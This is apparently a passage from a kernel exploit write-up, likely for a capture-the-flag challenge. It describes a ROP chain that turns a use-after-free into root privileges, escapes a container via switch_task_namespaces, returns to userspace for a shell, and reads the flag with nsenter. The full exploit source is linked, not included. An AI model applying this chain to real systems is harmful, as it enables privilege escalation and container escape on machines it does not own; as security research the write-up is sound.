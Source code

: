 
![Step 3: From UAF to root privileges](pic/node_master_kern_exec.png)

The gadget constructions are as follows:
 1. Stack pivot: `movq %rbx, %rsi; movq %rbp, %rdi; call
    __x86_indirect_thunk_r13` -> `pushq %rsi; jmp 46(%rsi)` -> `popq %rsp; ret`
    -> `popq %rsp; ret`, where %rdi, %rbx, and %r13 _initially_ points to
    user-controllable data.
 2. Gain root privileges: `popq %rdi; ret` -> `prepare_kernel_cred` -> `popq
    %rdi; ret` -> `movq %rax, (%rdi); ret`, where %rdi _now_ points to the
    stack top; `popq %rdi; ret` -> `commit_creds`, effectively executing
    `commit_creds(prepare_kernel_cred(&init_task))`.
 3. Escape containers: `popq %rdi; ret` -> `find_task_by_vpid` -> `popq %rdi;
    ret` -> `movq %rax, (%rdi); ret`, where %rdi _now_ points to the stack top;
    `popq %rdi; ret` -> `popq %rsi; ret` -> `switch_task_namespaces`,
    effectively performing `switch_task_namespaces(find_task_by_vpid(1),
    &init_nsproxy)`.
 4. Unlock mm: `popq %rax; ret` -> `movq %rbp, %rdi; call
    __x86_indirect_thunk_rax`, where %rbp points to the original seq_file;
    `popq %rax; ret` -> `m_stop`, effectively executing `m_stop(seq_file, ..)`.
 5. Return to userspace: use `swapgs_restore_regs_and_return_to_usermode`, and
    call `execve()` to get the shell.

Finally, using `nsenter --mount=/proc/1/ns/mnt` to restore the mount namespace
and get the flag via `cat /flag/flag`.

### Source code

The full exploit source is available [here](/exp). For more details, refer to
its README file.
